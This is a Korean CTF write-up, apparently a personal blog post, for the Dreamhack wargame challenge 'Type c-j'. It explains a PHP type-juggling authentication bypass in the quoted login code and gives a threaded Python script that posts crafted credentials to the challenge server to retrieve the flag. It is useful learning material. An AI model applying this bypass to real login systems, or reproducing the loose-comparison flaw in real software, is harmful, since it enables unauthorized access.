 ```yaml
---
layout: single
categories:
  - webhacking
title: "[wargame] Type c-j"
tags:
---
```

https://dreamhack.io/wargame/challenges/960


핵심 코드 

```php
    <?php
    function getRandStr($length = 10) {
        $characters = '0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ';
        $charactersLength = strlen($characters);
        $randomString = '';
    
        for ($i = 0; $i < $length; $i++) {
            $randomString .= $characters[mt_rand(0, $charactersLength - 1)];
        }
        return $randomString;

    }
    require_once('flag.php');
    error_reporting(0);
    $id = getRandStr();
    $pw = sha1("1");
    // POST request
    if ($_SERVER["REQUEST_METHOD"] == "POST") {
      $input_id = $_POST["input1"] ? $_POST["input1"] : "";
      $input_pw = $_POST["input2"] ? $_POST["input2"] : "";
      sleep(1);

      if((int)$input_id == $id && strlen($input_id) === 10){
        echo '<h4>ID pass.</h4><br>';
        if((int)$input_pw == $pw && strlen($input_pw) === 8){
            echo "<pre>FLAG\n";
            echo $flag;
            echo "</pre>";
          }
        } else{
          echo '<h4>Try again.</h4><br>';
        }
      }else {
      echo '<h3>Fail...</h3>';
     }
    ?> 
```

      if((int)$input_id == $id  
      
 이부분에서 input_id 를 int 로 형변환 하는데 덩달아 $id 부분도 int 로 변환된다 
 
 그래서 만약 id 의 첫부분이 숫자가 아닌 문자열이라면 0을 반환하고 1abc... 이렇게 되어있으면 문자열 부분을 제외한 1 이 반환된다 이걸이용해 길이를 맞춰주고 
 
 비번은 해시화 하면 "356a192b7913b04c54574d18c28d46e6395428ab" 이므로 356 하고 뒤에는 숫자를 제외한 문자를 넣으면 된다
 
  
  그래서 결론 코드는 
```python
import requests
from concurrent.futures import ThreadPoolExecutor


url = "http://host3.dreamhack.games:17328/check.php"


def flag():
    data = {
        "input1" : "0000000001",
        "input2" : "356aaaaa"
    }
    res = requests.post(url, data=data)
    print(res.status_code)
    if "FLAG" in res.text:
        print("FLAG IS : "+res.text)


with ThreadPoolExecutor(max_workers=100) as executor:
    for _ in range(100):
        executor.submit(flag) 
```

sleep (1) 함수에서 정체되지 않기위해 스레드 비동기로 리퀘스트를 보냈다 